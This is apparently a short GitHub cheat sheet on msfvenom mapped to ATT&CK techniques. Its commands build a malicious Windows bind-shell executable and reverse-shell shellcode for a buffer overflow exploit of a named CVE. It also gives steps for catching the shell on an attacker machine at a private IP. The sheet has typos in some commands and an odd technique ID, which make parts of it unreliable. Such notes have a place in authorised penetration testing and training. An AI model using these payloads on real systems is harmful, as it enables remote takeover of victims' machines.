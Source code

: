 # MSFVenom

## Usage
   - Payload generator and shellcode encoder

## ATT&CK
   - Execution
     - Exploitation for Client Execution (T1023) 
   - Privilege Escalation
     - Exploitation for Privilege Escalation (T1068)
  
## Link
   - https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom

## Commands
   - Client Execution
     - ```msfvenom --list payload | grtep windows```
       - list of windows payloads 
     - ```msfvenom -p windows/meterpreter_bind_tcp -a x86 -f exe -o bind.exe --platform windows```
       - Create a malicious exe to run in victim machine
     - ```msfconsole``` & ```set PAYLAOD windows/meterpreter_bin_tcp``` & ```set LPORT 4444``` & ```set LHOST 192.168.1.1```
       - Receive the shell in attacker machine 
   - Options
     - ```msfvenom -p windows/x64/shell_bind_tcp LPORT=4444 -b '\x00\x0d\x0a' -k -f python```
   - Privilege Escalation
     - ```msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.17 LPORT=4444 -f python -a x86 -b '\x00\x22\x0d\x0a'```
       - Use the output shell code in Buffer Overflow exploit of "CVE-2018-7573"
       - also the payload size must be changed (nops: 40 => 32)
       - Run vulnerable app in victim machine
       - Run the exploit in attacker machine to send payload to victim target
       - Listen to port on attacker machine to receive shell
